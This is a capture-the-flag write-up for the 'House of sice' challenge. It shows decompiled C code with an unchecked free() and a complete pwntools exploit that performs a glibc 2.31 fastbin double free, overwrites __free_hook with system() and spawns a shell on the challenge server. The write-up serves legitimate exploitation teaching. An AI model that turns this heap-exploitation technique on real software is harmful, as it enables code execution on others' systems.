





# House of sice

author: poortho

Welcome to the House of Sice! We hope you enjoy your stay.

```
nc house-of-sice.hsc.tf 1337
```

**Files**: [libc-2.31.so](https://hsctf.storage.googleapis.com/uploads/09d4dc50d7b31bca5fbbd60efebe4ce2ce698c46753a7f643337a303c58db541/libc-2.31.so) (libc6_2.31-0ubuntu9.2_amd64) [house_of_sice](https://hsctf.storage.googleapis.com/uploads/b469de89f48a6cf15634642c2b00c4fd9f02b956f80d684d992d697b485ffb80/house_of_sice)



**TL;DR** execute a [fastbin double free](https://www.fatalerrors.org/index.php/a/tcache-stash-fastbin-double-free.html) with <16 allocations using calloc magic.

## Details

`house_of_sice` has two functions: `buy()` and `sell()`

### buy

```c
__int64 get_index_of_next_empty() {
  for (int i = 0; i <= 15; ++i)
      if ( !ptrs[i] ) return i;
  puts("Out of space!");
  exit(-1);
}
unsigned __int64 buy() {
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  int ind = get_index_of_next_empty();
  puts("What kind of deet do you want?");
  puts("1. Delightful Deet");
  puts("2. Devious Deet");
  puts("3. Flag");
  printf("> ");
  read(0, buf, 0x14uLL);
  switch (strtoul(buf, 0LL, 10))  {
    case 3uLL:
      puts("Sorry, we're sold out!");
      break;
    case 2uLL:
      if ( bought_devious ) puts("Out of stock!");
      else {
        ptrs[ind] = (__int64 *)calloc(8uLL, 1uLL);
        bought_devious = 1;
      }
      goto PURCHASE_DONE;
    case 1uLL:
      ptrs[ind] = (__int64 *)malloc(8uLL);
PURCHASE_DONE:
      puts("Here's your deet!");
      puts("As always, we follow a pay-what-you-want policy.");
      puts("How much are you willing to pay for this?");
      printf("> ");
      read(0, buf, 0x14uLL);
      *ptrs[ind] = strtoul(buf, 0LL, 10);
      puts("Done!");
  }
}
```

`buy()` allocates a single `0x20` chunk of memory from the heap; you're only allowed to modify the first 8 bytes of that allocation during `buy()`. `buy()` can be executed a maximum of **16** times, and this is the major roadblock for the challenge. Also, `calloc()` can be used for allocation once.

### sell

```c
unsigned __int64 sell() {
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  puts("Which deet do you want to sell?");
  printf("> ");
  read(0, buf, 0x14uLL);
  unsigned ind = strtoul(buf, 0LL, 10);
  if ( ind > 0xF ) puts("Invalid index!");
  else {
    free(ptrs[ind]);
    puts("Done!");
  }
}
```

`sell()` just runs `free(ptrs[ind])` without any checks, so double-frees are easily attainable.

### Solving

Start by making 9 allocations: 7 to fill the tcache, and 2 to obtain a double-free fastbin:

```python
for i in range(9): buy(1)
for i in range(7): sell(i)
sell(8)
sell(7)
sell(8)
```



Call `malloc()` twice to bring down the tcache to 5 pointers:

```python
buy(1)
buy(1)
```



Call `calloc()`, which will pull a pointer from the _fastbins_ instead of the tcache (among other things). Overwrite the first 8 bytes of the allocated pointer with `__free_hook` --- this is the usual `->fd` overwrite that happens in a double-free.

```python
buy(2, context.libc.symbols['__free_hook'])
```



The next two allocations with `malloc()` will pull out `__free_hook` from the double-free vulnerability. Somehow. As far as I'm aware, `calloc()` should [just be calling `malloc()` internally](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L3428), so I can't provide an explanation for what's happening here.

```python
buy(1,unpack(b'/bin/sh\0'))
buy(1,context.libc.symbols['system'])
```



At this point, `gef` is very confused, but `__free_hook` has been overwritten with `system()`, so you can just free the pointer with `"/bin/sh"` from earlier for a shell.

```python
from pwnscripts import *
context.binary = 'house_of_sice'
context.libc = 'libc-2.31.so'
r = remote('house-of-sice.hsc.tf', 1337)
r.recvuntil('deet: ')
context.libc.symbols['system'] = unpack_hex(r.recvline())

@context.quiet
def choose(opt: int): r.sendlineafter('> ', str(opt))
def buy(opt: int, pay: int=0):
    choose(1)
    r.sendlineafter('> ', str(opt))
    r.sendlineafter('> ', str(pay))
def sell(ind: int):
    choose(2)
    r.sendlineafter('> ', str(ind))

for i in range(9): buy(1)
for i in range(7): sell(i)
sell(8)
sell(7)
sell(8)
buy(1)
buy(1)
buy(2,context.libc.symbols['__free_hook']) # This will do... I don't even know!
buy(1,unpack(b'/bin/sh\0'))
buy(1,context.libc.symbols['system'])
sell(11)
r.sendline(b'cat flag')
print(r.recvline())
```

